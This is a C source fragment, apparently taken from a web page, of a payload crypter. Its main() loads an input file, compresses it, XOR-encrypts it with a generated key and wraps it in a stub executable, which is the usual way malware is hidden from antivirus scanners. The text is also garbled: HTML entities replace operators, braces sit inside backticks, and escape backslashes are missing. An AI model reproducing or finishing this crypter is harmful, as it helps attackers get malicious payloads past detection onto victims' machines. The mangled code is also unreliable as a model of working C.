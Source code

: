 ```
    CryptReleaseContext(hProv, 0);
    return TRUE;
`}`
// XOR
BOOL EncryptPayload(FileStruct *fs) `{`
    Debug("EncryptPayloading payload...n");
    Debug("Generating key...n");
    if (GenerateKey(fs) == FALSE) return FALSE;
    for (DWORD i = 0; i &lt; fs-&gt;dwBufSize; i++)
        fs-&gt;pBuffer[i] ^= fs-&gt;pKey[i % KEY_LEN];
    Debug("EncryptPayloadion routine completen");
    return TRUE;
`}`
BOOL CompressPayload(FileStruct *fs) `{`
    Debug("Compressing payload...n");
    PBYTE pCompressedBuffer = (PBYTE)malloc(fs-&gt;dwBufSize);
    ULONG ulCompressedBufSize = compressBound((ULONG)fs-&gt;dwBufSize);
    compress(pCompressedBuffer, &amp;ulCompressedBufSize, fs-&gt;pBuffer, fs-&gt;dwBufSize);
    fs-&gt;pBuffer = pCompressedBuffer;
    fs-&gt;dwBufSize = ulCompressedBufSize;
    Debug("Compression routine completen");
    return TRUE;
`}`
int main(int argc, char *argv[]) `{`
    printf("Copyright (C) 2016  93aef0ce4dd141ece6f5nn");
    if (argc &lt; 3) `{`
        Debug("Usage: %s [INPUT FILE] [OUTPUT FILE]n", argv[0]);
        return 1;
    `}`
    FileStruct *fs = LoadFile(argv[1]);
    if (fs == NULL) return 1;
    Debug("Applying obfuscation...n");
    if (CompressPayload(fs) == FALSE) `{`
        free(fs);
        return 1;
    `}`
    if (EncryptPayload(fs) == FALSE) `{`
        free(fs);
        return 1;
    `}`
    Debug("n");
    if (BuildStub(argv[2], fs) == FALSE) `{`
        free(fs-&gt;pKey);
        free(fs);
        return 1;
    `}`
    // clean up
    free(fs-&gt;pKey);
    free(fs);
    Debug("nDonen");
    return 0;
`}`
```
